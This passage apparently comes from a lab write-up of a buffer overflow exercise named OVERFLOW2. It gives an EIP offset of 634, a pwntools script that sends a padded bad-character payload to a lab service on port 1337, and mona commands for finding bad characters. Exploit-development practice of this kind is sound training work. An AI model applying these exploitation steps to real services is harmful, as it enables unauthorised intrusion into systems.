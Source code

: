 The `EIP` offset for OVERFLOW2 is **634**, now we can answer to the first question of this task.

Now to find all the badchars, I used the `!mona bytearray -b "\x00"` command to generate a byte string excluding `\x00`, and I used the same string as a payload in the `find_badchars.py` file.

```python
from pwn import *

ip = "10.10.17.141"
port = 1337
command = "OVERFLOW2 "
offset = 634
retn = "BBBB"

value = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

payload = command + ("A" * offset) + retn + value

r = remote(host=ip, port=port, ssl=False)
print(r.recv().decode())

input_value = payload.encode()
r.send(input_value)
```

The offset is correct and I can say because the `EIP` register has been filled with the value "BBBB" (42424242) that I set in the code.

<div><p align="center"><img  src="img/registers.png" /></div>

Now to compare the strings and find out what the badchars are, I need the value contained in the `ESP`.

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP_address>
```

<div><p align="center"><img  src="img/mona2_2.png" /></div>
